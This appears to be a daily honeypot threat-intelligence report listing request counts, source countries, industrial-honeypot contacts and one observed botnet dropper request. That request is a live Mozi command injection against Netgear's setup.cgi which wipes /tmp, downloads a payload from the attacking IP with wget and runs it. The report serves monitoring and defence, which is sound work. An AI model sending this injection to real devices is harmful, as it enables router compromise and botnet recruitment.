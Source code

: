 ```yaml
---
title: "Report: 2025-04-23 "
date: 2025-04-23
desciption: "Report: 2025-04-23" 
tags: [repport, daily]
---
```



# Daily Report: 2025-04-23 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 1 stage 1 IP address(es), linked to 1 dropper URL(s).  

There are 46 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1674 requests were recorded during the day, originating from 1 different countries, with a peak of 431 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| GB               | Georgia            |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                      |
|:--------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 84.53.198.174 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://84.53.198.174:55691/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |

## request
